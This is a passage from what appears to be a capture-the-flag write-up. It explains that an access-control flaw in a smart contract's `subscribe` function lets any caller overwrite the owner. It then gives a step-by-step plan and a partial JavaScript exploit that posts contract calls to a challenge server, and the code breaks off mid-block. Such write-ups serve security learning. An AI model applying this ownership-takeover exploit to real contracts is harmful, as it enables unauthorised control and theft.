 So by calling the `subscribe`, any user is able to overwrite the `registration_open` and `owner` variable.

Using this we can make ourselves the owner of the smart-contract and thereby, giving ourselves VIPs.

Here is going to be our action plan:

* call `subscribe` with the user address and `0` --> this will make our user the owner of the contract but it will also disable registration
* call `enableRegistration` to open up registration again --> we can call this function now as we are now the owner
* call `subscribe` again with the user address and `1` --> this will make our user the owner of the contract **and** a VIP member
* call `/get_flag` and profit :)

Following the same extract idea and using the code snippets that we wrote before, we can now complete the exploit:

```javascript
const axios = require('axios')

const abi = [{"constant":true,"inputs":[{"name":"id","type":"uint256"}],"name":"getSubscriber","outputs":[{"name":"subscriber","type":"address"},{"name":"subscription","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[],"name":"disableRegistration","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"subscriber","type":"address"},{"name":"subscription","type":"uint256"}],"name":"subscribe","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"id","type":"uint256"}],"name":"deleteRegistration","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[{"name":"id","type":"uint256"}],"name":"isVIP","outputs":[{"name":"subscriber","type":"address"},{"name":"vip","type":"bool"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[],"name":"enableRegistration","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"inputs":[],"payable":false,"stateMutability":"nonpayable","type":"constructor"},{"anonymous":false,"inputs":[{"indexed":false,"name":"_from","type":"address"}],"name":"EnabledRegistration","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"_from","type":"address"}],"name":"DisabledRegistration","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"_subscriber","type":"address"},{"indexed":false,"name":"_subscription","type":"uint256"}],"name":"newSubscription","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"_id","type":"uint256"},{"indexed":false,"name":"_subscriber","type":"address"},{"indexed":false,"name":"_subscription","type":"uint256"}],"name":"subscriptionDeleted","type":"event"}];
myaddr = '0x313Ce889A274161555803eCB7437F5316256F34a';
mypass = '1234567890';

target = '0x30dF4556Af0a2103475c92881d5E07B59cFa69cC';

(async () => {
  let r = await axios.post('http://142.93.103.129:3000/call_contract', {
    address: target,
    abi,
    from: myaddr,
    password: mypass,
    func: 'subscribe',
    params: [myaddr, 0],
    value: 0,
    type: 'standard',
    gas: 2000000,
    gasPrice: 0,
  });

  r = await axios.post('http://142.93.103.129:3000/call_contract', {
    address: target,
    abi,
    from: myaddr,
    password: mypass,
    func: 'enableRegistration',
```